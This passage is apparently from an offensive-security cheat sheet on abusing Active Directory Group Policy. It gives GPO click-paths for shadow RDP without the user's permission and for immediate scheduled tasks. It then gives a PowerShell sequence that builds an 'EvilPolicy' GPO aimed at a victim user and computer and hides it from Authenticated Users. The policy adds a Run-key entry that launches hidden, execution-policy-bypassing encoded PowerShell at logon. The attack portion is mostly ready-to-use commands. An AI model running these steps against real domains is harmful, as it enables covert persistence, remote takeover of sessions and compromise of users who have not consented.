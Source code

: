 ```
      Control Panel Settings
        Local Users and Groups
          (right-click) New > Local Group
            Group name (...)
              Members (Add), OK
                Apply, OK
```
{% endtab %}
{% tab title="Enable Shadow RDP" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Administrative Templates
        Windows Components
          Remote Desktop Services
            Remote Desktop Session Host
              Connections
                Set rules for remote control of Terminal Services user sessions
                  Enabled + Options (Full Control without user's permission), OK
```
{% endtab %}
{% tab title="Immediate Scheduled Task" %}
```
<POLICY_NAME>
  Computer Configuration
    Policies
      Preferences
        Control Panel Settings
          Scheduled Tasks
            (right-click) New > Immediate Task (At least Windows 7)
```
{% endtab %}
{% endtabs %}



### Reach a Locked-down Domain Computer

- [How to Hack Like a Pornstar / Best hacking books for aspiring hackers - Real life hacking scenarios](https://www.sparcflow.com/best-hacking-books/)

If you find yourself in a situation when you're already a domain admin and you need to access a locked-down domain computer (no RDP/WinRM, no SMB shares, no owned local admins, etc.), creating an evil GPO may help.

Create a GPO using PowerShell (will trigger a command when the victim user logs in):

```
PS > Add-WindowsFeature -Name "GPMC"
PS > Import-Module GroupPolicy
PS > New-GPO -Name EvilPolicy -Domain megacorp.local -Server DC01.megacorp.local
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "victim.user" -TargetType User
PS > Set-GPPermission -Name EvilPolicy -Replace -PermissionLevel GpoApply -TargetName "VICTIM-PC" -TargetType Computer
PS > Set-GPPermission -Name EvilPolicy -PermissionLevel None -TargetName "Authenticated Users" -TargetType Group
PS > New-GPLink -Name EvilPolicy -Domain megacorp.local -Target "<TARGET_OU>" -Order 1 -Enforced Yes
PS > Set-GPRegistryValue -Name EvilPolicy -Key "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" -ValueName MSstart -Type String -Value "powershell.exe -NoP -sta -NonI -W Hidden -Exec Bypass -Enc <BASE64_CMD>"
```
